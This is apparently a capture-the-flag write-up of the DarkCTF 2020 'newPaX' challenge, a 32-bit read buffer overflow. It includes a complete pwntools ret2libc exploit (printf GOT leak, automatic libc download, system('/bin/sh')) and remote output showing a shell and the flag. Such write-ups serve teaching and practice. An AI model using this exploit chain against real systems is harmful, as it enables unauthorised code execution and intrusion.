 # DarkCTF 2020

## pwn/newPaX

> 95 solves / 411 points
>
> Author: gr4n173
>
> Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.
>
> `nc pwn.darkarmy.xyz 5001`
>  
> [newPaX](newPaX)

Tags: _pwn_ _x86_ _remote-shell_ _rop_ _bof_


## Summary

`read` buffer overflow with no stack protection.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what), _except it's 32-bits_.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
void vuln(void)
{
  undefined local_34 [44];
  
  __x86.get_pc_thunk.ax();
  read(0,local_34,200);
  return;
}
```

`read` bof vulnerability (reading 200 bytes into a 44-byte buffer that is `0x34` (52) bytes from the return address in the stack).  Easy ROP since no canary or PIE.  To get to the return address send `0x34` bytes (gotta love how Ghidra tells you that, i.e. `local_34`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./newPaX')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    libc_index = 5
    p = remote('newpax.darkarmy.xyz', 5001)
```

Boilerplate pwntools.  Notice there's no `libc` set for `REMOTE` since we have to find it first (see `libc_index` below).


### Leak libc

```python
payload  = 0x34 * b'A'
payload += p32(binary.plt.printf)
payload += p32(binary.sym.vuln)
payload += p32(binary.got.printf)

p.send(payload)
_ = p.recv(4)
printf = u32(_)
log.info('printf: ' + hex(printf))
p.recv(20)
```

Standard `printf` _printing_ itself.  With the `printf` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.

> While nearly identical to [roprop](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop), less got this, perhaps 32-bit is a mystery.
> 
> x86 32-bit systems pass params via the stack, no need for ROP gadgets like `pop rdi`.  The params are return address, then params to the function.  Above we're calling `printf` to leak itself, then setting the return address to `vuln` for a 2nd pass, then finally the first argument to `printf`--it's own address (the leak).  Sometimes you have to worry about `EBX`, but that's a [story](https://github.com/datajerk/ctf-write-ups/tree/master/auctf2020/house-of-madness#but-wait--theres-more) for another time.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'printf':hex(printf)[-3:]}})
        libc_url = r.json()[libc_index]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = printf - libc.sym.printf
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[libc_index]['download_url']` needs to be changed if the downloaded libc does not work, just increment `libc_index` (see above) until you get the right one (`5` in this case).


### Get a shell, get the flag

```python
payload  = 0x34 * b'A'
payload += p32(libc.sym.system)
payload += 4 * b'B'
payload += p32(libc.search(b'/bin/sh').__next__())

p.send(payload)
p.interactive()
```

Pop a shell, get the flag.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/newpax/newPaX'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to newpax.darkarmy.xyz on port 5001: Done
[*] printf: 0xf7d67bd0
[*] getting: https://libc.rip/download/libc6-i386_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/newpax/libc6-i386_2.27-3ubuntu1.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xf7d17000
[*] Switching to interactive mode
$ ls -l
total 32
drwxr-x--- 1 0 1000 4096 Sep 25 01:59 bin
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 dev
-rwxr----- 1 0 1000   49 Sep 21 17:58 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 01:58 lib64
-rwxr-x--- 1 0 1000 7568 Sep 19 11:14 newPaX
$ cat flag.txt
darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}
```

> _Is the flag hinting at a [ret2dlresolve](https://docs.pwntools.com/en/beta/rop/ret2dlresolve.html) solution?_  Not what I used here.